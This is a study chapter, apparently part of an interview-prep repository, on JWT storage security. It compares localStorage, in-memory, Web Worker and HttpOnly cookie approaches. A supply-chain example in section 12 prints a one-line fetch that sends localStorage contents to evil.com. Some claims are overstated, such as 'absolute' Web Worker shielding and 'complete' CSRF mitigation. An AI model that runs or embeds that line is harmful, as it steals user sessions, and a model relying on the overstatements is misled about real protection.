


# Topic 04: JWT Storage Architecture & Security Vectors (LocalStorage vs HttpOnly Cookies vs In-Memory)

## 1. Why This Topic Exists
Where to store JSON Web Tokens in a client application is one of the most fiercely debated, misunderstood, and consequential architectural decisions in web engineering. Storing tokens incorrectly can completely neutralize multi-million-dollar identity and firewall investments. 

If an architect chooses `localStorage`, any minor Cross-Site Scripting (XSS) vulnerability anywhere on the origin—whether introduced through an un-sanitized markdown renderer, an outdated npm dependency, or a third-party analytics script—grants malicious actors immediate, programmatic access to dump all tokens and exfiltrate user identities. Conversely, if an architect naively switches to cookies without understanding modern `SameSite` attributes and anti-forgery tokens, they open the application to Cross-Site Request Forgery (CSRF). 

Understanding the threat models, operating system and browser memory topologies, and defensive trade-offs of token storage tiers is a fundamental test of frontend and full-stack security competence.

---

## 2. Learning Objectives
By mastering this chapter, you will be able to:
- Dissect the threat models of **Cross-Site Scripting (XSS)** token exfiltration vs **Cross-Site Request Forgery (CSRF)** ambient authorization.
- Evaluate the 4 primary client storage tiers: `localStorage`, `sessionStorage`, In-Memory Closures, and `HttpOnly` Cookies.
- Implement the resilient In-Memory + Silent Refresh architecture using isolated Web Worker threads or Service Workers.
- Understand the modern browser cookie security envelope: `HttpOnly`, `Secure`, `SameSite=Lax/Strict`, and cookie prefixes (`__Host-`, `__Secure-`).
- Leverage the Web Cryptography API for **Non-Extractable Cryptographic Keys** (`extractable: false`).
- Design an end-to-end Backend-For-Frontend (BFF) cookie encryption pipeline that completely shields frontend JavaScript from raw tokens.

---

## 3. Historical Evolution



<details>
<summary>📄 View Raw ASCII Schematic</summary>

```text
+--------------------------------------------------------------------------------------------------+
|                                    CHRONOLOGICAL EVOLUTION                                       |
+--------------------------------------------------------------------------------------------------+
| 2010 - The "LocalStorage Gold Rush": HTML5 Web Storage introduced. Developers universally dumped |
|        JWTs into `localStorage` for convenience. Led to epidemic levels of XSS token theft.      |
|                                                                                                  |
| 2016 - IETF SameSite Cookie Attribute: Introduced to combat CSRF by stopping browsers from        |
|        sending cookies on cross-origin requests. Radically changed the cookie security balance.  |
|                                                                                                  |
| 2019 - Auth0 & IETF Recommend In-Memory Storage for SPAs: In-Memory closures combined with       |
|        hidden iframe silent renewals to prevent XSS exfiltration.                                |
|                                                                                                  |
| 2020 - Third-Party Cookie Crackdown (Safari ITP & Chrome Partitioning): Iframe silent renewals   |
|        broken by cross-site cookie blocking. Forced SPAs to adopt Refresh Token Rotation (RTR). |
|                                                                                                  |
| 2023+ - The BFF Consensus (OWASP & OAuth 2.1 BCP): Storing raw tokens in the browser declared an |
|         anti-pattern. Universal recommendation: Backend-For-Frontend with `__Host-` cookies.     |
+--------------------------------------------------------------------------------------------------+
```

</details>

---

## 4. First Principles & Intuitive Physical Analogies (Layer 1)

### Analogy: The 4 Valuables Lockers
Imagine you possess the master keys to a corporate bank vault (Access & Refresh Tokens):
1. **`localStorage` (The Glass Trophy Case in the Public Lobby):** You place your master keys inside an open glass trophy case in the office reception area. Any employee, visitor, cleaner, or package delivery person (any third-party JavaScript library or XSS snippet) can casually walk over, pick up the keys, photocopy them, and walk out.
2. **`sessionStorage` (The Glass Trophy Case in a Private Conference Room):** Slightly better than the lobby because only people who enter this specific room (this specific browser tab) can see it. But if a bad actor enters the room, the glass is still unlocked.
3. **In-Memory Closure (The Invisible Pocket):** You keep the keys inside an invisible, inner pocket inside your tailored jacket. No one standing in the room can see the keys. However, the moment you step outside the building to get fresh air (hit F5 to refresh the browser), your jacket disappears and you must show your passport to get new keys.
4. **`HttpOnly` Cookie with `__Host-` Prefix (The Armored Pneumatic Tube):** You never hold the keys at all! The keys reside locked inside a steel vault pipe between the building foundation and the server. The browser knows the tube exists, but **JavaScript has zero hands to touch it**. Even if a malicious script runs wild in your browser DOM, it cannot read the keys inside the pipe.

---

## 5. Internal Working & Engine Architecture (Layer 2)

### 1. Storage Tiers Threat Modeling Matrix

```
+-----------------------------------------------------------------------------------------------+
| Storage Mechanism   | XSS Vulnerability       | CSRF Vulnerability      | Persistence / Scope |
+---------------------+-------------------------+-------------------------+---------------------+
| `localStorage`      | CATASTROPHIC:           | IMMUNE:                 | Survives tab close  |
|                     | `window.localStorage`   | Attacker cannot force   | & browser restarts; |
|                     | readable by any script. | cross-origin read.      | shared by origin.   |
+---------------------+-------------------------+-------------------------+---------------------+
| `sessionStorage`    | CATASTROPHIC:           | IMMUNE:                 | Cleared on tab close|
|                     | Readable by any script  | Attacker cannot force   | isolated strictly   |
|                     | in the current tab.     | cross-origin read.      | to single tab.      |
+---------------------+-------------------------+-------------------------+---------------------+
| In-Memory Closure   | RESILIENT:              | IMMUNE:                 | Lost on refresh;    |
| (React State / Var) | Script cannot access    | No ambient credentials  | requires silent     |
|                     | unexposed closures.     | attached by browser.    | re-auth cycle.      |
+---------------------+-------------------------+-------------------------+---------------------+
| `HttpOnly` Cookie   | IMMUNE TO THEFT:        | VULNERABLE IF UNGUARDED:| Managed by browser; |
|                     | `document.cookie`       | Mitigated completely via| configurable expiry |
|                     | cannot read HttpOnly.   | `SameSite=Lax` + CSRF.  | and domain scope.   |
+---------------------+-------------------------+-------------------------+---------------------+
```

### 2. The Defensive Cookie Envelope: Modern Standards
To make cookies bulletproof in enterprise applications, every token cookie must adhere to these directives:

```
Set-Cookie: __Host-auth-token=eyJhbGciOi...; 
            Secure; 
            HttpOnly; 
            SameSite=Lax; 
            Path=/; 
            Max-Age=3600
```

- **`HttpOnly`:** Disallows client-side JavaScript from reading `document.cookie`. Completely prevents XSS token theft!
- **`Secure`:** Enforces transmission exclusively over encrypted HTTPS connections (blocks TLS downgrade attacks).
- **`SameSite=Lax`:** Prevents the browser from sending the cookie on cross-site sub-requests (such as ``, `<script>`, or cross-origin `fetch`), neutralizing standard CSRF attacks while allowing top-level link navigations.
- **`__Host-` Cookie Prefix:** RFC 6265bis security enhancement. Rejects the cookie unless:
  1. It is marked `Secure`.
  2. It originated from the exact host domain (cannot be set from parent/subdomains).
  3. Its `Path` is strictly `/`.

---

## 6. Runtime Flow & Execution Traces

### Architecture: In-Memory Token with Web Worker Isolation

```
React Main Thread UI                  Isolated Web Worker (WorkerGlobalScope)        Identity Provider
         |                                                 |                                |
         | 1. Initialize Worker & Login                    |                                |
         |------------------------------------------------>|                                |
         |                                                 | 2. Perform PKCE Auth Flow      |
         |                                                 |------------------------------->|
         |                                                 | 3. Returns Tokens:             |
         |                                                 |    - Access Token              |
         |                                                 |    - Refresh Token             |
         |                                                 |<-------------------------------|
         |                                                 |                                |
         |                                                 | 4. Stores Tokens strictly in   |
         |                                                 |    Worker Heap (DOM-inaccessible)|
         |                                                 |                                |
         | 5. Worker posts message: "LOGGED_IN"            |                                |
         |<------------------------------------------------|                                |
         |                                                 |                                |
         | [ATTACK SCENARIO: Malicious XSS in Main Thread] |                                |
         | Malicious script executes:                      |                                |
         | - window.localStorage (EMPTY!)                  |                                |
         | - document.cookie (EMPTY!)                      |                                |
         | - Cannot read Worker's internal memory!         |                                |
         |                                                 |                                |
         | 6. React UI needs API data:                     |                                |
         |    postMessage({ action: 'FETCH', url: '/api' })|                                |
         |------------------------------------------------>|                                |
         |                                                 | 7. Worker attaches Bearer token|
         |                                                 |    and executes fetch()        |
         |                                                 |-------------------------------> Protected API
```

---

## 7. Memory Model & Heap Layout

### V8 Context Isolation: Main Thread vs Worker Thread
Why Web Workers provide absolute memory shielding against XSS:

```
[Renderer Process Operating System Memory]
│
├── [Renderer Main Thread: V8 Context A]
│   ├── DOM Window & Document
│   ├── React Fiber Root Node
│   ├── Malicious XSS Injected Script (Full read access to Window, DOM, localStorage)
│   └── Worker Handle: Instance of Worker (Holds only postMessage IPC channel)
│
└── [Worker Thread: V8 Context B (Dedicated Heap)]
    ├── WorkerGlobalScope (Completely distinct V8 Isolate & Heap!)
    ├── Zero access to DOM or Window
    ├── Private Variable: `let accessToken = "eyJ...";`
    └── Private Variable: `let refreshToken = "0.ARw...";`
```
Even if an attacker gains 100% arbitrary JavaScript execution on the Main Thread, **V8 context isolation physically prevents them from dereferencing pointers on the Worker heap**.

---

## 8. Visual Diagrams (ASCII / Text)



<details>
<summary>📄 View Raw ASCII Architecture Schematic</summary>

```text
+---------------------------------------------------------------------------------------------+
|                                    BROWSER ENVIRONMENT                                      |
|                                                                                             |
|   +-------------------------------------------------------------------------------------+   |
|   |   React Application (Client Window)                                                 |   |
|   |   - Renders components and user interface                                           |   |
|   |   - ZERO knowledge of Access Tokens or Refresh Tokens                               |   |
|   |   - Sends all API requests to relative path: `/api/proxy/...`                       |   |
|   |   - Browser attaches: Cookie: `__Host-session-id=opaque_encrypted_guid`             |   |
|   +-------------------------------------------------------------------------------------+   |
+----------------------------------------------+----------------------------------------------+
                                               |
                                               | HTTPS with __Host- HttpOnly Cookie
                                               v
+---------------------------------------------------------------------------------------------+
|                                    TRUSTED BFF GATEWAY                                      |
|                                                                                             |
|   +-------------------------------------------------------------------------------------+   |
|   |   Next.js Server / ASP.NET Core YARP Gateway                                        |   |
|   |   1. Decrypts `__Host-session-id` cookie                                            |   |
|   |   2. Retrieves cached Access Token from Redis or Server Session Store               |   |
|   |   3. Checks expiration: if expired, exchanges Refresh Token with IdP                 |   |
|   |   4. Injects: `Authorization: Bearer <Real_JWT>` into upstream request              |   |
|   +-------------------------------------------------------------------------------------+   |
+----------------------------------------------+----------------------------------------------+
                                               |
                                               | Direct Microservice Network Call
                                               v
+---------------------------------------------------------------------------------------------+
|   Protected Microservices (.NET 10 / Azure Container Apps)                                   |
+---------------------------------------------------------------------------------------------+
```

</details>

---

## 9. Real World Usage & Production Patterns

> 🧪 **Companion Interactive Lab:** [LabComponent.tsx](../../apps/portal/src/features/visualizers/topic-07-security/LabComponent.tsx) | Live in Portal: `topic-07-security`

### Pattern 1: In-Memory Token Manager with Closure Encapsulation (`tokenManager.ts`)

```typescript
/**
 * In-Memory Token Vault.
 * Token is enclosed inside a module closure. Never attached to window or exported directly.
 */
class InMemoryTokenVault {
  private static instance: InMemoryTokenVault;
  private currentAccessToken: string | null = null;
  private tokenExpiresAt: number = 0;
  private refreshPromise: Promise<string> | null = null;

  private constructor() {}

  public static getInstance(): InMemoryTokenVault {
    if (!this.instance) {
      this.instance = new InMemoryTokenVault();
    }
    return this.instance;
  }

  public setToken(token: string, expiresInSeconds: number): void {
    this.currentAccessToken = token;
    // Set expiry 30 seconds early for clock-skew safety
    this.tokenExpiresAt = Date.now() + (expiresInSeconds - 30) * 1000;
  }

  public clear(): void {
    this.currentAccessToken = null;
    this.tokenExpiresAt = 0;
  }

  public async getValidToken(refreshFn: () => Promise<{ token: string; expiresIn: number }>): Promise<string> {
    // If token exists and has not expired, return immediately from memory
    if (this.currentAccessToken && Date.now() < this.tokenExpiresAt) {
      return this.currentAccessToken;
    }

    // Prevent Thundering Herd: Deduplicate concurrent refresh calls into single Promise
    if (!this.refreshPromise) {
      this.refreshPromise = refreshFn()
        .then(({ token, expiresIn }) => {
          this.setToken(token, expiresIn);
          return token;
        })
        .finally(() => {
          this.refreshPromise = null;
        });
    }

    return this.refreshPromise;
  }
}

export const tokenVault = InMemoryTokenVault.getInstance();
```

### Pattern 2: Web Cryptography API Non-Extractable Key Storage (`cryptoVault.ts`)

```typescript
/**
 * Generates an asymmetric cryptographic key pair where the private key
 * is marked strictly NON-EXTRACTABLE (`extractable: false`).
 * Even if an attacker executes XSS, they cannot export the raw private key bytes!
 */
export async function createNonExtractableAuthKey(): Promise<CryptoKeyPair> {
  const keyPair = await window.crypto.subtle.generateKey(
    {
      name: 'ECDSA',
      namedCurve: 'P-256',
    },
    false, // extractable: false! (CRITICAL SECURITY INVARIANT)
    ['sign', 'verify']
  );

  return keyPair;
}

/**
 * Signs an outbound request payload inside the browser crypto engine.
 */
export async function signOutboundPayload(privateKey: CryptoKey, payload: string): Promise<string> {
  const encoder = new TextEncoder();
  const data = encoder.encode(payload);

  const signature = await window.crypto.subtle.sign(
    {
      name: 'ECDSA',
      hash: { name: 'SHA-256' },
    },
    privateKey,
    data
  );

  return btoa(String.fromCharCode(...new Uint8Array(signature)));
}
```

---

## 10. Angular Comparison

| Aspect | Modern React Ecosystem | Angular Enterprise Ecosystem |
| :--- | :--- | :--- |
| **Token Storage Configuration** | Custom In-Memory singletons or Next.js cookie wrappers. | Configured via `OAuthStorage` abstract token provider in Angular DI (defaults to `sessionStorage` or custom in-memory service). |
| **CSRF Handling** | Manual `X-CSRF-Token` headers or `SameSite=Lax` cookies. | Native `HttpClientXsrfModule` automatically extracting anti-CSRF token from `XSRF-TOKEN` cookie and injecting `X-XSRF-TOKEN` header. |
| **Multi-Tab Synchronization** | `BroadcastChannel` or `window.addEventListener('storage')`. | RxJS `OAuthService.events` broadcasting storage sync updates across active tabs. |

---

## 11. .NET Comparison

| Aspect | Frontend Token Architecture | ASP.NET Core & Blazor Equivalent |
| :--- | :--- | :--- |
| **Cookie Encryption** | Browser-level opaque cookies set via server headers. | ASP.NET Core Data Protection API (`IDataProtectionProvider`) providing cryptographically authenticated and encrypted cookies (`.AspNetCore.Cookies`). |
| **Anti-Forgery Defense** | Custom anti-CSRF double-submit token pattern. | `[ValidateAntiForgeryToken]` attribute and `IAntiforgery` service generating cryptographic anti-forgery form tokens. |
| **Blazor WebAssembly Storage**| Standard browser storage or In-Memory tokens. | `ProtectedLocalStorage` and `ProtectedSessionStorage` using server Data Protection to encrypt local state before saving to browser disk. |

---

## 12. Enterprise Perspective & Production Risks (Layer 4)

### 1. The NPM Supply Chain Poison Attack
Modern React applications import hundreds of open-source npm dependencies. If an attacker publishes a compromised version of an innocent utility library (e.g. `event-stream` or a UI button kit):
- If your tokens reside in `localStorage`, the rogue package needs just 1 line of code to exfiltrate every active user session:
  `fetch('https://evil.com/leak', { body: JSON.stringify(localStorage) });`
- If your tokens are stored in `HttpOnly` cookies via a BFF, the rogue script can execute network calls, but **it can never steal or persist the user's master credentials**.

### 2. The Subdomain Cookie Poisoning Risk
If an application is hosted on `app.contoso.com` and sets a cookie with `Domain=.contoso.com`, any compromised or vulnerable app running on any sibling subdomain (e.g., `legacy-dev.contoso.com`) can overwrite or read that cookie.
**Enterprise Remedy:** Never set loose domain scopes. Use the **`__Host-` prefix**, which enforces that the cookie is tied exclusively to the exact origin hostname.

---

## 13. Performance Considerations

### 1. The Heavy Cookie Header Penalty
Cookies attached to the root domain (`Domain=example.com`) are automatically transmitted on **every single asset request**, including CSS files, images, fonts, and scripts!
- If your encrypted session cookie is 4 KB, and an initial page load requests 80 images from the same domain, you are wasting **320 KB of redundant outbound upstream mobile bandwidth**.
- **Optimization:** Host static assets on an un-cookied static domain (e.g., `cdn.example.com` or `assets-example.com`).

---

## 14. Tradeoffs

| Storage Option | Security Posture | Developer Experience & Cost |
| :--- | :--- | :--- |
| **`localStorage`** | Very Low (Extreme XSS risk). | High (Trivial to implement; zero server requirements). |
| **In-Memory Closure** | Moderate-High (XSS-resilient). | Moderate (Requires silent refresh choreography; lost on refresh). |
| **Web Worker Isolation** | High (Complete heap isolation). | Moderate-Low (Complex IPC communication via `postMessage`). |
| **BFF with `__Host-` Cookies** | Maximum (Industry Gold Standard). | High initial server infrastructure and stateful management cost. |

---

## 15. Common Mistakes & Interview Traps

### Trap 1: Assuming `sessionStorage` Protects Against XSS
- **The Mistake:** Believing that using `sessionStorage` instead of `localStorage` makes an application safe from XSS.
- **The Reality:** Any XSS payload executing on the page has full access to `sessionStorage.getItem()`. The only difference is that `sessionStorage` dies when the tab closes, but an XSS script takes less than 10 milliseconds to steal the token while the tab is active!

### Trap 2: Omitting `SameSite` on Token Cookies
- **The Mistake:** Setting `HttpOnly; Secure;` on an authentication cookie without declaring `SameSite`.
- **The Reality:** Without `SameSite=Lax` or `Strict`, legacy or non-compliant browsers will send the cookie on third-party cross-origin POST requests, leaving the application wide open to CSRF attacks.

---

## 16. Interview Questions & Architectural Answers (Senior, Lead, Architect - Layer 5)

### Staff/Principal Question: An audit reveals that our single-page application is vulnerable to DOM-based XSS, and migrating to a full BFF within this sprint is impossible. How would you harden our in-memory token storage immediately?
**Architectural Answer:**
1. **Quarantine Tokens in a Web Worker:** Spin up an isolated Web Worker dedicated to authentication. Move token storage and the API fetch pipeline completely inside the Worker.
2. **Channel Encapsulation:** The main thread communicates with the Worker via `MessageChannel` / `postMessage`, requesting actions rather than asking for the raw token.
3. **Shorten Token TTL:** Configure the IdP to reduce access token lifetimes to 5 minutes, significantly truncating the attacker's window of opportunity.
4. **Deploy Strict CSP Level 3:** Enforce a Content Security Policy that strictly limits `connect-src` to trusted API domains and prohibits `eval` and inline scripts. Even if an attacker finds an injection point, they cannot exfiltrate data to an unauthorized command-and-control server.
5. **Phase Two Migration:** Prioritize the BFF refactor into the immediate subsequent sprint to eliminate browser-held tokens permanently.

---

## 17. Senior-Level Mental Model & "How to Remember This Forever" (Memory Anchors - Layer 3)

### The "Bank Teller Window" Anchor
- **`localStorage`:** Leaving your cash on the public counter in front of the line.
- **`HttpOnly` Cookie:** Speaking through the bulletproof glass window. The teller handles the money behind the glass; you never touch the cash directly.
- **`__Host-` Prefix:** The padlock that prevents anyone from picking the lock from an adjacent branch office.

---

## 18. Core Vocabulary & "Aha!" Breakthrough Insights (Refresher)

- **`HttpOnly`:** Cookie flag prohibiting JavaScript DOM access via `document.cookie`.
- **`SameSite=Lax`:** Default modern policy blocking ambient cookies on cross-site subresource requests.
- **`__Host-` Prefix:** RFC 6265bis prefix requiring HTTPS, exact hostname binding, and root path.
- **Thundering Herd:** Multiple concurrent requests triggering duplicate refresh token exchanges simultaneously.
- **Non-Extractable Key:** A cryptographic key in Web Crypto that can sign data but whose raw bytes cannot be read by JavaScript.

---

## 19. Key Takeaways
1. Never store sensitive tokens or refresh tokens in `localStorage` or `sessionStorage`.
2. `HttpOnly` cookies protect against XSS token exfiltration; `SameSite=Lax/Strict` protects against CSRF.
3. The Backend-For-Frontend (BFF) pattern is the gold standard for enterprise web security.
4. If an SPA must manage tokens directly, use in-memory closures with Web Worker isolation.
5. Always use `__Host-` cookie prefixes to prevent subdomain cookie hijacking.

---

## 20. Revision Sheet

```
+--------------------------------------------------------------------------------------------------+
|                                    TOKEN STORAGE CHEAT SHEET                                     |
+--------------------------------------------------------------------------------------------------+
| Storage Verdicts:                                                                                |
| - `localStorage`   : NEVER for Access/Refresh Tokens. Trivially stolen via XSS.                 |
| - `sessionStorage`  : NEVER for Access/Refresh Tokens. Still vulnerable to XSS.                   |
| - In-Memory Closure : ACCEPTABLE for short-lived access tokens (with silent refresh).            |
| - Web Worker Heap   : EXCELLENT for SPAs (physically separated V8 Isolate context).              |
| - BFF Cookie        : GOLD STANDARD (HttpOnly, Secure, SameSite=Lax, __Host- prefix).            |
|                                                                                                  |
| Golden Cookie Config:                                                                            |
| `Set-Cookie: __Host-session=xyz; Secure; HttpOnly; SameSite=Lax; Path=/; Max-Age=3600`           |
+--------------------------------------------------------------------------------------------------+
```
